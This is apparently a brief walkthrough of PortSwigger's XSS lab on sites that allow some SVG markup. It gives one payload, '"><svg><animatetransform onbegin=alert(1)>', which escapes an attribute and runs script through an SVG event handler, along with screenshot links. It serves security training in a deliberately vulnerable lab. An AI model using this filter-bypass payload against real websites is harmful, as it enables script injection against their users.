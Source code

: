 ## Welcome, my friend. Today we will start the [16. XSS lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/62de03ce-bd73-48e4-baad-3d1e00f71d4f)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/ca1b96db-f35f-4a76-9a7b-1f7d95664b5e)


### Let's enter ```javascript``` code in body:

```
"><svg><animatetransform onbegin=alert(1)>
```

![image](https://github.com/user-attachments/assets/fed1e3e1-eb1d-461c-be02-582d3522077f)

![image](https://github.com/user-attachments/assets/8aa37e29-91cc-4f50-88d4-b12d0cc57ecc)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/2fec8d8f-22d5-4564-8544-4dab70e3cbe6" >
</p>
